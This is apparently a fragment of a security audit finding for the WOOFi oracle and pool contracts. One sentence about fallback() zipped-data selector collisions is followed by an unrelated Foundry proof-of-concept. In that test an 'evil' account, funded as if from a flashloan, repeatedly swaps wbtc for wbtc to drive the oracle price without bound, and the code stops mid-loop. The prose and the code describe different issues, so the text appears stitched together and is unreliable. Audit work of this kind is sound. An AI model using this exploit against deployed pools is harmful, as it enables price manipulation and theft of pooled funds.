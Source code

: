 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
        oracle.postState({_base: address(wbtc), _price: 50_000e8, _spread: 0.001e18, _coeff: 0.000000001e18});
        oracle.setWooPP(address(pool));
        oracle.setAdmin(address(pool), true);
        pool.setWooracle(address(oracle));

        // add some initial liquidity
        usdt.mint(address(this), 10_000_000e6);
        usdt.approve(address(pool), type(uint256).max);
        pool.depositAll(address(usdt));

        wbtc.mint(address(this), 100e8);
        wbtc.approve(address(pool), type(uint256).max);
        pool.depositAll(address(wbtc));
    }

    function testMaxPriceDriftInNormalCase() public {
        (uint256 initPrice, bool feasible) = oracle.price(address(wbtc));
        assertTrue(feasible);
        assertEq(initPrice, 50_000e8);

        // buy almost all wbtc in pool
        usdt.mint(address(this), 5_000_000e6);
        usdt.transfer(address(pool), 5_000_000e6);
        pool.swap({
            fromToken: address(usdt),
            toToken: address(wbtc),
            fromAmount: 5_000_000e6,
            minToAmount: 0,
            to: address(this),
            rebateTo: address(this)
        });

        (uint256 pastPrice, bool feasible2) = oracle.price(address(wbtc));
        assertTrue(feasible2);
        uint256 drift = ((pastPrice - initPrice) * 1e5) / initPrice;
        assertEq(drift, 502); // 0.502%
        console2.log("Max price drift in normal case: ", _toPercentString(drift));
    }

    function testUnboundPriceDriftInAttackCase() public {
        (uint256 initPrice, bool feasible) = oracle.price(address(wbtc));
        assertTrue(feasible);
        assertEq(initPrice, 50_000e8);

        // top up the evil, in real case, the fund could be from a flashloan
        wbtc.mint(evil, 100e8);

        for (uint256 i; i < 10; ++i) {
            vm.startPrank(evil);
            uint256 balance = wbtc.balanceOf(evil);
            wbtc.transfer(address(pool), balance);
            pool.swap({
                fromToken: address(wbtc),
                toToken: address(wbtc),
                fromAmount: balance,
                minToAmount: 0,
                to: evil,
                rebateTo: evil
            });
            (uint256 pastPrice, bool feasible2) = oracle.price(address(wbtc));
            assertTrue(feasible2);
            uint256 drift = ((pastPrice - initPrice) * 1e5) / initPrice;
````